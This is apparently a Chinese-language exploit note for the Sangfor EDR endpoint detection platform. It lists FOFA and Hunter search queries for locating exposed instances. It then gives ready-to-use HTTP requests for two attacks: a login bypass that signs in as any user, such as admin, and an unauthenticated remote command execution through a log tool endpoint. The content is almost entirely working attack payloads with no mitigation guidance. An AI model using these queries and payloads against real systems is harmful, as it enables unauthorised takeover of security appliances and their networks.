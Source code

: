 # 深信服SANGFOR终端检测响应平台 - 任意用户免密登录,前台RCE

## SANGFOR终端检测响应平台 - 任意用户免密登录,前台RCE

## FOFA语法
```
title="SANGFOR终端检测响应平台"
icon_hash="1307354852"
```
##  鹰图搜索
```
web.title="SANGFOR终端检测响应平台"
web.icon=="68e28d49856759ddeb91b6be3d6f7e42"
```

## 漏洞复现
路由后拼接/ui/login.php?user={{需要登录的用户名}}

这边以admin权限用户为例
```
GET /ui/login.php?user=admin HTTP/1.1

Host: {{Hostname}}
```

## 前台RCE
```
GET /tool/log/c.php?strip_slashes=system&host=id HTTP/1.1

Host: {{Hostname}}
```

